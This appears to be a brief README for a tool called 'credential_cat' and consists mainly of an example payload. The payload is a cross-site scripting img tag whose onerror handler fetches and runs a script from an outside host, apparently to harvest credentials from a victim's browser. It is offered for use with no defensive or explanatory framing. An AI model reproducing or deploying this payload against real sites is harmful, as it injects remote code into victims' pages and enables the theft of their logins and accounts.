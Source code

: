 # credential_cat

#### example payload:
> &lt;img src="jiji://a/404.png" width="1px" height="1px" onerror=" var s = document.createElement('script');s.src = 'https://astals.github.io/credential_cat/credential_cat.js' ;$('head').append(s);"&lt;
